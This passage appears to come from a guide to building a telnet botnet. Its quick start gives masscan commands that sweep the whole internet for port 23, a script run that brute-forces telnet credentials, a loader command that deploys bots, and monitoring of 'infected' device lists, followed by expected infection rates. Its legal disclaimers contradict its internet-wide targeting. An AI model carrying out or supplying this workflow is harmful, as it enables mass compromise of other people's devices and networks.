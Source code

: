 ## 🛡️ **8. Legal and Ethical Considerations**

### **⚠️ Important Notes:**
- **Only scan devices you own** or have explicit permission
- **Respect rate limits** to avoid overwhelming networks
- **Follow local laws** regarding network scanning
- **Use for educational purposes** only
- **Implement proper security** for your own systems

### **Best Practices:**
- **Test on isolated networks** first
- **Document all activities** for compliance
- **Implement logging** for audit trails
- **Regular security updates** for your systems
- **Monitor for unauthorized access**

## 🎯 **9. Quick Start Guide**

### **Step 1: Target Discovery**
```bash
# Use Shodan/Censys to find targets
# Or use masscan for scanning
masscan -p23 0.0.0.0/0 --rate=1000 -oG telnet_scan.txt
```

### **Step 2: Credential Testing**
```bash
# Use your telnet_scanner.py
python3 telnet_scanner.py -t targets.txt -c credential_lists.txt -T 100
```

### **Step 3: Bot Deployment**
```bash
# Use your loader.py
python loader.py found_credentials.txt
```

### **Step 4: Monitor Results**
```bash
# Monitor progress
tail -f bots.txt infected.txt echoes.txt
```

## 📈 **10. Expected Results (2025)**

### **Target Discovery**
- **Local network**: 10-50 potential targets
- **Public scanning**: 100-1000+ targets
- **Credential success**: 5-15% of targets

